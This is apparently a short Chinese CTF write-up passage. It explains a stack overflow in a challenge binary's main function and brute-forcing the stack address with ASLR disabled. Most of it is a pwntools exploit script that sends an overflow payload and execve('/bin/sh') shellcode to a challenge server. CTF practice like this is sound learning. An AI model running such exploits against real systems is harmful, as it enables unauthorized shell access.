


当输入的长度为0时，根据以上代码逻辑将会一直读取直到读入换行，于是存在栈溢出，本题溢出点在main函数，有ecx影响，由于关了aslr，可以使用暴力破解，以4字节为单位很快就能跑出服务端地址：



```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
p = remote("10.21.13.201",4455)
#p = remote("127.0.0.1",1234)
addrBase = 0xffffd62c
#addrBase = 0xffffd268
sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
#gdb.attach(p,"""
#        b *0x8048897
#        b *0x80488b8
#        continue
#        """)
#raw_input("#")
i=0
p.sendline('0')
addr = addrBase +i*4
log.info("addr :  "+hex(addr))
pl = 'a'*24+p32(0x08049050)+'b'*8+p32(addr+4)+'a'*4+p32(addr+4)+sc 
p.sendline(pl)
p.interactive()
````